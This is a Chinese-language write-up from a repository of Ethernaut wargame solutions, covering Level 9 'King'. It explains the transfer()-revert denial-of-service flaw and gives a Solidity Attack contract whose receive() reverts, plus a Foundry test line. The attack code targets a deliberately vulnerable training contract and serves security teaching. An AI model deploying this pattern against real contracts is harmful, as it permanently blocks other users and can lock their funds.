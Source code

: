 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 9 - King](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

谁出资更高的时候，谁就成为king，目标让自己成为king之后，别人无法夺取；
<img src="../imgs/requirements/9-king-requirements.webp" width="800px"/>

## 漏洞

在这一关，目标是成为国王，然后确保合约不能将奖金转移给下一个国王。换句话说，我们必须成为王者并一直保持国王，然后打破游戏。

我们需要理解 `transfer`（现在基本被弃用） 是如何在solidity中工作的。如果`transfer`失败，此函数抛出错误，但不返回布尔值。这意味着如果`transfer`失败，交易将恢复。

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
首先，我们需要检查`prize`函数，看看需要多少ether才能通过`require`条件并成为国王。

我们成为国王后，怎么能确保没有人能废黜我们呢?我们可以利用`transfer()`函数的失败恢复的特性，你想到了吗？答案很简单，我们只需要部署一个合约然后让他成为国王，只要不给合约没有定义`receive()`或`fallback()`函数，或者将`receive()`或`fallback()`函数内容直接revert，那么合约将无法接收任何eth，这将有效地阻止任何人成为我们之后的新国王。

## 解答

部署一个合约，然后将`receive()`函数设置为revert。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    King instance;

    constructor(address payable fb) payable {
        instance = King(fb);
    }

    function attack() public payable {
        (bool success, ) = address(instance).call{value: msg.value}("");
        require(success, "we are not the new king");
    }

    receive() external payable {
        revert("king!");
    }
}
```

然后可以利用foundry进行测试

```javascript
    attacker.attack{value: instance.prize() + 1}();
    assertEq(instance._king(), address(attacker));
```

## 要点

- `send` 和 `transfer` 现在已被弃用。即使是`call`，使用时，最好按照，检查-效果-交互的模式调用，以防止重入问题。
- <b>外部调用必须谨慎使用，必须正确处理错误。</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
